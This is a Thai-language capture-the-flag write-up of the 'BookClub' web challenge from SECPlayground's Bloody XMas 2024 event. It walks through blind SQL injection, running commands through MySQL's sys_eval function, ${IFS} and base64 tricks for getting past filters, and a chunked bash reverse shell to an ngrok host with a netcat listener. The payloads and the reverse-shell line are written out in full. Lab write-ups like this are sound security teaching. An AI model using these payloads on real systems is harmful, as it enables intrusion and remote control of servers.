## ข้อ 7. BookClub

> 🏆 **Challenge**:   
> 💪 **Difficulty**: 🔴 HARD  
> 🎯 **Category**: Web Application Security


## การวิเคราะห์เบื้องต้น 🔍

เมื่อเข้าสู่หน้าเว็บไซต์ครั้งแรก เราพบว่าเป็นระบบค้นหาหนังสือที่ใช้ ID ในการค้นหา โดยมีฟีเจอร์หลักๆ ดังนี้:
- ช่องกรอก Book ID สำหรับค้นหาหนังสือ
- แสดงผลในรูปแบบตารางที่มีข้อมูล ID, ชื่อหนังสือ และรายละเอียดอื่นๆ
- ไม่มีฟอร์มการ login หรือระบบ authentication



## การสำรวจข้อมูล 🕵️

#### Directory Enumeration
ใช้ `dirsearch` ในการค้นหา paths ที่น่าสนใจ:
```bash
dirsearch -u http://35.240.216.137/
```

พบไฟล์ที่น่าสนใจ:
- **phpinfo.php** - แสดงข้อมูลการตั้งค่าทั้งหมดของ webserver ทำให้เราทราบ:
  - PHP Version
  - Enabled Modules
  - System Environment Variables
  - Server Configuration
  
  ** *แต่ไม่ได้ช่วยอะไรเราได้เลย!*


## ขั้นตอนการโจมตี 🎯

#### 1. SQL Injection Testing
&nbsp;&nbsp;&nbsp;&nbsp;เริ่มต้นด้วยการทดสอบ SQL Injection แบบพื้นฐาน:

&nbsp;&nbsp;&nbsp;&nbsp;- **ทดสอบ UNION-based Injection:**
```bash
# ตัวอย่างคำสั่งไม่สำเร็จ:
1 UNION SELECT 1,2,3--
1' UNION SELECT 1,2,3,4--
1" UNION SELECT 1,2,3,4--
```

&nbsp;&nbsp;&nbsp;&nbsp;- **ทดสอบ Boolean-based Injection:**
```bash
# ตัวอย่างคำสั่งสำเร็จ:
1' AND '1' = '1' #  -- Returns true, แสดงรายการหนังสือของ ID 1
1' AND '1' != '1' # -- Returns false, ไม่แสดงรายการหนังสือ
```

&nbsp;&nbsp;&nbsp;&nbsp;จากการทดสอบพบว่า:
- Query น่าจะอยู่ในรูปแบบ: `SELECT * FROM books WHERE id = '<input>'`
- สามารถใช้ Boolean-based injection ได้
- มีการ escape character บางตัว
- UNION-based injection ไม่สามารถใช้ได้

#### 2. Blind SQL Injection
&nbsp;&nbsp;&nbsp;&nbsp;- เมื่อพบว่าสามารถใช้ Boolean-based injection ได้ จึงปรับแต่ง payload สำหรับ Blind SQL Injection:

```bash
# Base payload template:
1' AND '{text}' = select substr(@@version,{index},1) #

# Examples:
1' AND '5' = select substr(@@version,1,1) #
1' AND '.' = select substr(@@version,2,1) #
```



&nbsp;&nbsp;&nbsp;&nbsp;**ผลลัพท์ที่ได้:**
- `@@version`: `5.7.33-0ubuntu0.16.04.1`
- `database()`: `book`

&nbsp;&nbsp;&nbsp;&nbsp;- ทดสอบการทำ Schema enumeration พวก information_schema ,mysql , performance_schema , sys

```bash
- 1' AND '{text}' = select substr(select group_concat(schema_name) from information_schema.schemata,{index},1) #
- 1' AND '{text}' = select substr(select group_concat(table_name) from information_schema.tables,{index},1) #
- 1' AND '{text}' = select substr(select group_concat(column_name) from information_schema.columns,{index},1) #
```
&nbsp;&nbsp;&nbsp;&nbsp;**ผลลัพท์ที่ได้ : ไม่พบข้อมูลอะไรเลย! นี่มันอะไรเนี่ย?**

#### 3. MySQL Configuration Analysis
ทำการตรวจสอบการตั้งค่า MySQL เพื่อหาช่องทางในการ exploit:

**ผลลัพท์ของการตั้งค่าที่พบ**
```bash
@@plugin_dir = '/usr/lib/mysql/plugin/'
@@secure_file_priv = '/var/lib/mysql-files/'

@@version = '5.7.33-0ubuntu0.16.04.1'
@@datadir = '/var/lib/mysql/'
```

จากการตรวจสอบพบว่า:
- ไม่สามารถใช้ `LOAD_FILE()` หรือ `INTO OUTFILE` นอก directory ที่กำหนดไว้คือ /var/lib/mysql-files/
- MySQL version ค่อนข้างเก่า อาจมีช่องโหว่

#### 4. Command Execution via SQL
&nbsp;&nbsp;&nbsp;&nbsp;หลังจากไปกด hint ดู: `You can Command injection via SQL injection` จึงทำการค้นคว้าเพิ่มเติมและพบ:

1. MySQL UDF (User-Defined Functions) สามารถใช้ execute system commands ได้
2. พบ plugin `sys_eval` ที่น่าสนใจ:
   - สามารถ execute system commands
   - return output เป็น string
   - ไม่ต้อง compile UDF เพิ่ม



**5. Testing Command Execution:**

ทดสอบ command เพื่อ show ข้อมูล user

```bash
# command execution payload:
1' AND '{text}' = (select substr((select hex(select sys_eval('id'))),{index},1)) #

# Result
สำเร็จ ทำการ decode hex ออกมาได้ผลลัพท์ user ชื่อ mysql
```



ทดสอบลองเปลี่ยนเป็น command `ls` สามารถ execute ได้ แต่ `ls /` ไม่ได้ หรือจะติด space



จึงเปลี่ยน เป็น `ls${IFS}/` ผลคือสำเร็จ สามารถใช้ ${IFS} แทนช่องว่างได้



ต่อไปก็ไปลองคำสั่งอื่น ๆ เช่น `ls${IFS}book` , `ls${IFS}mysql` , `ls${IFS}/home` , `ls${IFS}/tmp`

**ผลคือ :** ไม่พบข้อมูลอะไรเลย เอาอีกแล้วเกิดอะไรขึ้นเนี่ย! หรือจะติด privilege หรือป่าว ไม่น่าจะเกี่ยวนะ

จึงทดลองใช้ command `echo` เพื่อจะ print ข้อความดูก่อนปรากฎว่า
- `echo 1` สำเร็จ
- `echo 11` สำเร็จ
- `echo 1111` สำเร็จ
- `echo` ไปเรื่อยๆ ยาวๆ ไป จนไม่สามารถใช้คำสั่ง echo ได้ แสดงว่า มีการ limit ความยาวของ payload ที่ส่งไปแน่ๆ

- จึงทำการลดรูปของ query ลงซะ ตรงไหนไม่เว้นวรรคได้ ตัดวงเล็บเกินๆ ออก ก็จะเหลือแค่
```bash
1' AND ''=(select sys_eval('<command>'))#
```

จากการทดสอบ พบข้อจำกัดหลายอย่างที่ต้องแก้ไข:

1. **Query Length Limitation:**
   - พบว่าจะใส่ query ยาวๆ ไม่ได้ มีการจำกัดความยาวของ payload
   - ต้องทำการย่อ payload ให้สั้นที่สุด

2. **Space Character Filtering:**
   - ใช้ `${IFS}` แทน space
   - ตัวอย่าง: `ls${IFS}/` แทน `ls /`

#### 6. Reverse Shell Setup
จึงคิดวางแผนจะทำ reverse shell: แต่จะใส่ payload ทั้งหมดไม่ได้แน่ๆ เพราะโดนจำกัดความยาวของ payload 

1. **Setup Listener:**
   ```bash
   # Start ngrok for tunneling
   ngrok tcp 4444

   # Setup netcat listener
   nc -lvnp 4444
   ```
   
   

2. **Generate Payload:**
   - ใช้ [revshells.com](https://www.revshells.com/) สร้าง payload
   
   

#### 7. Payload Construction & Execution
ขั้นตอนการสร้างและ execute reverse shell:

- เนื่องจากถูก length limit ไว้ จึงต้องใช้วิธีการเขียนไฟล์ทีละส่วน โดยจะให้ความยาวของ payload ไม่เกิน 65
    ```bash
    #ใช้ echo เขียนไฟล์ โดยใช้ชื่อไฟล์ a

    1 AND ''=(select sys_eval('echo${IFS}"/bin/bash -i "'>a))#
    1 AND ''=(select sys_eval('echo${IFS}">& /dev/tcp/0."'>>a))#
    1 AND ''=(select sys_eval('echo${IFS}"tcp.ap.ngrok.io"'>>a))#
    1 AND ''=(select sys_eval('echo${IFS}"/13760 0>&1"'>>a))#
    ```

- นำ payload ทั้งหมดไปทดสอบ แต่ปรากฎว่า payload บางอันใช้ไม่ได้ หรืออาจจะมี filter อักขระอะไรอีกรึป่าว
- จึงทำการเปลี่ยน command ใหม่ โดย encode command ในส่วนของ reverse shell เป็น base64 ก่อนเพื่อหลีกเลี่ยง special characters
    ```bash
    echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzAudGNwLmFwLm5ncm9rLmlvLzEzNzYwIDA+JjE=|bass64${IFS}-d|bash${IFS}-i
    ```      
- เอา payload มาแบ่งส่วนเหมือนเดิม 

    ```bash
    #ใช้ echo เขียนไฟล์ โดยใช้ชื่อไฟล์ a

    1 AND ''=(select sys_eval('echo${IFS}"L2Jpbi9iYXNoIC1">a'))#
    1 AND ''=(select sys_eval('echo${IFS}"pID4mIC9kZX">>a'))#
    1 AND ''=(select sys_eval('echo${IFS}"XYvdGNwLzAudGNwL">>a'))#
    ......
    1 AND ''=(select sys_eval('echo${IFS}"|base64${IFS}-d">>a'))#
    1 AND ''=(select sys_eval('echo${IFS}"|bash${IFS}-i">>a'))#
    ```

- เมื่อส่ง payload ทั้งหมดได้สำเร็จ ก็ลองไปอ่านไฟล์ `a` ที่เขียนไว้ ดูก่อน ปรากฎว่า มีไฟล์ถูกเขียนจริง แต่...

    ```bash
    #ข้อความในไฟล์ติดกัน และถูกขึ้นบรรทัดใหม่ ไม่สามารถใช้ได้

    echoL2Jpbi9iYXNoIC1
    pID4mIC9kZX
    YvdGNwLzAudGNwL
    mFwLm5ncm9rLmlv
    LzEzNzYwIDA+JjE=
    |bass64-d
    |bash-i
    ```

- เอาใหม่อีกครั้ง encode ทั้งหมดนี้แหละ เป็น base64 ไปเลย ที่นี้เขียน code python ให้ช่วยแบ่ง payload ให้เลย
  และเปลี่ยนคำสั่ง `echo` เป็น `printf` แทน

    


- เมื่อส่ง payload ทั้งหมดแล้วก็ไปสั่ง decode ไฟล์ `a` ที่เป็น base64 กลับเป็นข้อความเดิม ด้วยคำสั่ง `base64 -d` แล้ว save เป็นไฟล์ใหม่ชื่อไฟล์ `b`
    ```bash
    1' AND ''=(select sys_eval('cat${IFS}a|base64${IFS}-d${IFS}>b'))#
    ```

- เปลี่ยนสิทธิ์ของไฟล์ `b` ให้ execute ได้
    ```bash
    1' AND ''=(select sys_eval('chmod${IFS}+x${IFS}b'))#
    ```
- และสุดท้ายสั่ง `execute` ไฟล์ `b` เลย
    ```bash
    1' AND ''=(select sys_eval('./b'))#
    ```
สำเร็จ reverse shell ได้แล้ว ที่เหลือก็หาไฟล์ flag 

### Success! 🎉


ได้ reverse shell สำเร็จและเริ่มการล้วงหาข้อมูล:

**Find Flag:**
   ```bash
   find / -name "flag*" 2>/dev/null
   ```

พบ flag ใน `/var/www/`:

**และอ่าน Flag:**
   ```bash
   cat /var/www/flag_xxx.txt
   ```




### ✅ บทสรุปจากโจทย์นี้

1. SQL Injection: เมื่อ UNION-based ใช้ไม่ได้ ต้องพลิกไปใช้ Blind SQL Injection พร้อมเทคนิค substr() เพื่อดึงข้อมูลทีละตัวอักษรแบบเนียนๆ 🕵️‍♂️

2. เจาะ MySQL: เรียนรู้การใช้ UDF ช่วยรันคำสั่ง, ตรวจสอบการตั้งค่า MySQL, และใช้ plugins สำหรับการทำ command execution ที่แอบซ่อนไว้ 🔍

3. เทคนิค Bypass: ใช้ ${IFS} แทนช่องว่างในคำสั่ง, base64 เข้ารหัสเพื่อหลีกเลี่ยงตัวละครอันตราย, และตัด payload เป็นส่วนๆ ให้ผ่านข้อจำกัดความยาว ✂️

4. Reverse Shell: ใช้ command injection สร้าง reverse shell, ngrok ทำ TCP tunneling สะดวกๆ 💻

การแก้โจทย์นี้ไม่ใช่เรื่องง่าย หัวใจแทบวายกับความท้าทายที่ต้องเจอ ทุกขั้นตอนคือความตื่นเต้นจนไม่รู้จะบรรยายยังไง!

---
###### Written by Kornpong.m
###### #SECPlayground   #SECPlaygroundBloodyXMas2024 

<a href="./"><<กลับหน้าหลัก</a>